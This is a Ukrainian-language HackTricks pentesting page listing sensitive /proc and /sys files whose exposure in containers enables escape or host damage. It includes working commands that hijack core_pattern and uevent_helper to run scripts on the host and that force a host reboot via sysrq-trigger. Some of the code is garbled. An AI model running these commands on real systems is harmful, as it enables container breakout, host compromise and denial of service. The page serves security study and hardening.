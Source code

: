 # Чутливі монтування

{{#include ../../../../banners/hacktricks-training.md}}

Відкриття `/proc` та `/sys` без належної ізоляції простору імен створює значні ризики безпеки, включаючи збільшення поверхні атаки та розкриття інформації. Ці каталоги містять чутливі файли, які, якщо неправильно налаштовані або доступні несанкціонованому користувачу, можуть призвести до втечі з контейнера, модифікації хоста або надати інформацію, що сприяє подальшим атакам. Наприклад, неправильне монтування `-v /proc:/host/proc` може обійти захист AppArmor через його шляхову природу, залишаючи `/host/proc` незахищеним.

**Додаткові деталі про кожну потенційну уразливість можна знайти в** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Уразливості procfs

### `/proc/sys`

Цей каталог дозволяє доступ для зміни змінних ядра, зазвичай через `sysctl(2)`, і містить кілька підкаталогів, які викликають занепокоєння:

#### **`/proc/sys/kernel/core_pattern`**

- Описано в [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Дозволяє визначити програму для виконання при генерації файлу ядра з першими 128 байтами як аргументами. Це може призвести до виконання коду, якщо файл починається з каналу `|`.
- **Приклад тестування та експлуатації**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Тест доступу на запис
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Встановити власний обробник
sleep 5 && ./crash & # Викликати обробник
```

#### **`/proc/sys/kernel/modprobe`**

- Детально описано в [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Містить шлях до завантажувача модулів ядра, який викликається для завантаження модулів ядра.
- **Приклад перевірки доступу**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Перевірити доступ до modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

- Згадано в [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Глобальний прапор, який контролює, чи панікує ядро або викликає OOM-убивцю, коли виникає умова OOM.

#### **`/proc/sys/fs`**

- Згідно з [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), містить параметри та інформацію про файлову систему.
- Доступ на запис може дозволити різні атаки відмови в обслуговуванні проти хоста.

#### **`/proc/sys/fs/binfmt_misc`**

- Дозволяє реєструвати інтерпретатори для неоригінальних бінарних форматів на основі їх магічного номера.
- Може призвести до підвищення привілеїв або доступу до кореневого шеллу, якщо `/proc/sys/fs/binfmt_misc/register` доступний для запису.
- Відповідна експлуатація та пояснення:
- [Бідний чоловік rootkit через binfmt_misc](https://github.com/toffan/binfmt_misc)
- Детальний посібник: [Посилання на відео](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Інші в `/proc`

#### **`/proc/config.gz`**

- Може розкрити конфігурацію ядра, якщо `CONFIG_IKCONFIG_PROC` увімкнено.
- Корисно для атакуючих для виявлення уразливостей у запущеному ядрі.

#### **`/proc/sysrq-trigger`**

- Дозволяє викликати команди Sysrq, потенційно викликаючи негайні перезавантаження системи або інші критичні дії.
- **Приклад перезавантаження хоста**:

```bash
echo b > /proc/sysrq-trigger # Перезавантажує хост
```

#### **`/proc/kmsg`**

- Відкриває повідомлення з кільцевого буфера ядра.
- Може допомогти в експлуатації ядра, витоках адрес та надати чутливу інформацію про систему.

#### **`/proc/kallsyms`**

- Перераховує експортовані символи ядра та їх адреси.
- Важливо для розробки експлуатацій для ядра, особливо для подолання KASLR.
- Інформація про адреси обмежена, якщо `kptr_restrict` встановлено на `1` або `2`.
- Деталі в [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Інтерфейс з пристроєм пам'яті ядра `/dev/mem`.
- Історично вразливий до атак підвищення привілеїв.
- Більше про [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Представляє фізичну пам'ять системи у форматі ELF core.
- Читання може призвести до витоку вмісту пам'яті хоста та інших контейнерів.
- Великий розмір файлу може призвести до проблем з читанням або збоїв програмного забезпечення.
- Детальне використання в [Вивантаження /proc/kcore у 2019 році](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Альтернативний інтерфейс для `/dev/kmem`, що представляє віртуальну пам'ять ядра.
- Дозволяє читання та запис, отже, безпосередню модифікацію пам'яті ядра.

#### **`/proc/mem`**

- Альтернативний інтерфейс для `/dev/mem`, що представляє фізичну пам'ять.
- Дозволяє читання та запис, модифікація всієї пам'яті вимагає вирішення віртуальних адрес у фізичні.

#### **`/proc/sched_debug`**

- Повертає інформацію про планування процесів, обходячи захисти простору імен PID.
- Відкриває імена процесів, ID та ідентифікатори cgroup.

#### **`/proc/[pid]/mountinfo`**

- Надає інформацію про точки монтування в просторі імен монтування процесу.
- Відкриває місцезнаходження контейнера `rootfs` або образу.

### Уразливості `/sys`

#### **`/sys/kernel/uevent_helper`**

- Використовується для обробки `uevents` пристроїв ядра.
- Запис у `/sys/kernel/uevent_helper` може виконати довільні скрипти при спрацьовуванні `uevent`.
- **Приклад експлуатації**: %%%bash

#### Створює корисне навантаження

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Знаходить шлях хоста з монтування OverlayFS для контейнера

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### Встановлює uevent_helper на шкідливий помічник

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### Викликає uevent

echo change > /sys/class/mem/null/uevent

#### Читає вихідні дані

cat /output %%%

#### **`/sys/class/thermal`**

- Контролює налаштування температури, потенційно викликаючи атаки DoS або фізичні пошкодження.

#### **`/sys/kernel/vmcoreinfo`**

- Витікає адреси ядра, потенційно компрометуючи KASLR.

#### **`/sys/kernel/security`**

- Містить інтерфейс `securityfs`, що дозволяє налаштування Linux Security Modules, таких як AppArmor.
- Доступ може дозволити контейнеру відключити свою MAC-систему.

#### **`/sys/firmware/efi/vars` та `/sys/firmware/efi/efivars`**

- Відкриває інтерфейси для взаємодії з EFI змінними в NVRAM.
- Неправильна конфігурація або експлуатація можуть призвести до "заблокованих" ноутбуків або неможливих для завантаження хост-машин.

#### **`/sys/kernel/debug`**

- `debugfs` пропонує "без правил" інтерфейс для налагодження ядра.
- Історія проблем з безпекою через його необмежений характер.

### Посилання

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Розуміння та зміцнення Linux контейнерів](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Зловживання привілейованими та непривілейованими Linux контейнерами](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
